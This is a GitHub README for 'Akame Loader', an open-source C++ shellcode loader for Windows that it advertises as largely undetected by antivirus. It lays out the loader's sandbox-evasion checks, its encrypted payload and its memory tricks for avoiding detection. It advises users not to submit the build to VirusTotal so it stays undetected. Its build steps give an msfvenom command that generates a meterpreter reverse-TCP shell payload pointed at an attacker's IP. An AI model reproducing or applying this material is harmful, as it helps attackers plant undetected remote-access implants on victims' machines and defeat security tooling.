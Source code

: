 <h1 align="center">Akame Loader</h1>
<p align="center">
  <img width="250" height="250" src="https://raw.githubusercontent.com/Wtf-Is-This-x1337/Akame-Loader/main/Images/akame.png" width="250" height="250">
</p>
<h4 align="center">An open source, UD (3/71) shellcode loader written in C++</h4>

## Details
Icon: https://icon-icons.com/icon/Halloween-eye/109170
| Name | Details |
| ------ | ------ |
| Name | Akame Loader |
| Author | WtfIsThis |
| Language | C++ |
| Platform | Windows |
| Version | 1.1 |
| License | MIT |
| Libraries | kernel32, advapi32, crypt32 |
| Encryption | AES256 |
| Build | Release |

! If you change the encryption method and want to keep your executable UD for a longer period of time, don't use VirusTotal / AntiScan.me / any other site that distributes to security vendors.

## How does it work?
1. Uses WINAPI WinMain so it doesn't popup any console window
2. Checks the current hard disk, if the size is under 100GB it closes itself
3. Sleeps for 10000ms (10s)
4. Checks if any tickcount-related function was manipulated by a sandbox (by checking the hashes and comparing the time slept with the time elapsed on the machine), if something seems wrong, it closes itself
5. Stores the IV, the encryption Key, and the encrypted payload as buffers
6. Allocates a memory buffer for the payload
7. Decrypts the payload (AES256) and closes itself if something doesn't work correctly
8. Copies the payload to a new buffer
9. Marks the memory space as executable (This is not done during the first allocation because it's suspicious to create a memory space which is ReadWriteExecute)
10. Executes the payload

## How to build?
**1. Generate shellcode<br>**
- Metasploit: <br>
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=*IP* LPORT=*PORT* -f raw > shellcode.bin
- Native PE: <br>
use [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode) to generate the shellcode
- Managed PE: <br>
use [donut](https://github.com/TheWover/donut) to generate the shellcode
